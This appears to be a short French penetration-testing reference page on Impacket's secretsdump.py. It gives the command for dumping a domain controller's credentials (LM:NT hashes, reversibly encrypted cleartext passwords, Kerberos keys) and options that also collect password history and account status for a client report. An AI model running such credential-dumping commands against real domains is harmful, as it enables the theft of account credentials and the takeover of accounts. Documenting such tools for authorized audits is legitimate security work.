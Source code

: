 ```yaml
---
public: true # set to true to make the article publishable
---
```


## secretsdump

```shell
# génère 3 fichiers commencant par 'hashes' contenant :
# - les hasn LM:NT
# - les mots de passe stockés en clair (chifrrement réversible)
# - les clés kerberos
secretsdump.py -outputfile "hashes" -just-dc $AD_DOMAIN/$AD_USER:"$AD_PASSWORD"@$TARGET_IP
```

On pourra utiliser en complément les paramètres suivants, principalement pour fournir des statistiques à un commanditaire :

- `-pwd-last-set` : stock également la date du dernier changement de mot de passe
- `-history` : collecte également les mots de passe précédents pour de potentielles comparaisons
- `-user-status` : stock également l'état du compte (désactivé ou non)
